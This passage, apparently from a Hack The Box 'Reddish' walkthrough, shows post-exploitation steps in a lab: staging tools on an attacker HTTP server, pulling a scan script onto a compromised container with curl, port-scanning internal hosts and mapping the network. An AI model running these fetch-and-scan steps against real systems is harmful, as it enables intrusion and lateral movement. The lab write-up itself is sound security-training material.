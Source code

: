 Start a python server on the attacker machine that will host the scripts and binaries.


```bash
python3 -m http.server 80
```

On the nodered container use the `__curl` function to download the hostscan.sh script.

```bash
root@nodered:/tmp/workspace_nodered_container## __curl http://10.10.14.26/hostscan.sh > hostscan.sh
```

![nodered hostscansh](/assets/img/htb/reddish/nodered_hostscansh.png)

The scan shows that in the network 172.19.0.0 exist other three hosts besides 172.19.0.4 which is nodered. Proceed with enumerating the open ports of each host.

> For this task I created a minimal network scanner written in bash, this tool will be used to further enumerate more hosts in the network. [netscan](https://github.com/xffsec/netscan)

Performing a port scan of the active hosts returns other 2 results, an http server on 172.19.0.2 and redis on 172.19.0.3

```bash
bash netscan -P -t 172.19.0.3 -R 1-4 -r 1-10000
```

![netscan hosts port](/assets/img/htb/reddish/netscan_hosts_ports.png)

A network map is created for ease of reference.

```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880

    [host]        172.19.0.1

    [container_1] 172.19.0.2:80

    [container_2] 172.19.0.3:6379
```
